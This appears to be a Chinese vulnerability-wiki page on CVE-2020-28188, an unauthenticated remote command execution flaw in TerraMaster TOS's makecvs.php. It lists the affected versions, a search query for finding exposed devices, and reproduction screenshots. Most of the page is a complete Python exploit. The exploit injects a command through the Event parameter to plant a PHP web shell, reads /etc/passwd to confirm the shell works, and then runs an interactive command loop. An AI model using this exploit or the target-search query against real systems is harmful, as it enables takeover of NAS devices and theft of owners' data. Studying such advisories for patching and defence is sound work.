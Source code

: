 # TerraMaster TOS makecvs.php 远程命令执行漏洞 CVE-2020-28188

## 漏洞描述

TerraMaster TOS 4.2.06 以下中 makecvs.php 存在任意文件写入，攻击者可以上传恶意文件控制服务器

## 漏洞影响

<a-checkbox checked>TerraMaster TOS < 4.2.06</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"TerraMaster" && header="TOS"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313162331471.png)



存在漏洞的为 `/include/makecvs.php` 中的Event参数



使用EXP文件上传并执行命令



![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313162331359.png)



## 漏洞POC

```python
# Exploit Title: TerraMaster TOS 4.2.06 - RCE (Unauthenticated)
# Date: 12/12/2020
# Exploit Author: IHTeam
# Full Write-up: https://www.ihteam.net/advisory/terramaster-tos-multiple-vulnerabilities/
# Vendor Homepage: https://www.terra-master.com/
# Version: <= 4.2.06
# Tested on: 4.1.30, 4.2.06

#!/usr/bin/env python3
import argparse
import requests
import time
import sys
import urllib.parse
from requests.packages.urllib3.exceptions import InsecureRequestWarning

requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

parser = argparse.ArgumentParser(description="TerraMaster TOS <= 4.2.06 Unauth RCE")
parser.add_argument('--url', action='store', dest='url', required=True, help="Full URL and port e.g.: http://192.168.1.111:8081/")
args = parser.parse_args()

url = args.url
headers = {'User-agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.121 Safari/537.36'}
epoch_time = int(time.time())
shell_filename = "debug"+str(epoch_time)+".php"

def check_endpoint(url, headers):
	response = requests.get(url+'/version', headers=headers, verify=False)
	if response.status_code == 200:
		print("[+] TerraMaster TOS version: ", str(response.content))
	else:
		print("\n[-] TerraMaster TOS response code: ", response.status_code)
		sys.exit()
		
def upload_shell(url, headers, shell_filename):
	payload = "http|echo \"<?php echo(passthru(\\$_GET['cmd']));?>\" >> /usr/www/"+shell_filename+" && chmod +x /usr/www/"+shell_filename+"||"
	payload = urllib.parse.quote(payload, safe='')
	print("[/] Uploading shell...")
	response = requests.get(url+'/include/makecvs.php?Event='+payload, headers=headers, verify=False)
	time.sleep(1)
	response = requests.get(url+'/'+shell_filename+'?cmd=cat /etc/passwd', headers=headers, verify=False)
	if ('root:' in str(response.content, 'utf-8')):
		print("[+] Upload succeeded")
	else:
		print("\n[-] Error uploading shell: ", response.content)
		sys.exit()

def interactive_shell(url, headers, shell_filename, cmd):
	response = requests.get(url+'/'+shell_filename+'?cmd='+urllib.parse.quote(cmd, safe=''), headers=headers, verify=False)
	print(str(response.text)+"\n")


def delete_shell(url, headers, shell_filename):
	delcmd = "rm /usr/www/"+shell_filename
	response = requests.get(url+'/'+shell_filename+'?cmd='+urllib.parse.quote(delcmd, safe=''), headers=headers, verify=False)
	print("\n[+] Shell deleted")

upload_shell(url, headers, shell_filename)
try:
	while True:
		cmd = input("# ")
		interactive_shell(url, headers, shell_filename, cmd)
except:
	delete_shell(url, headers, shell_filename)
```
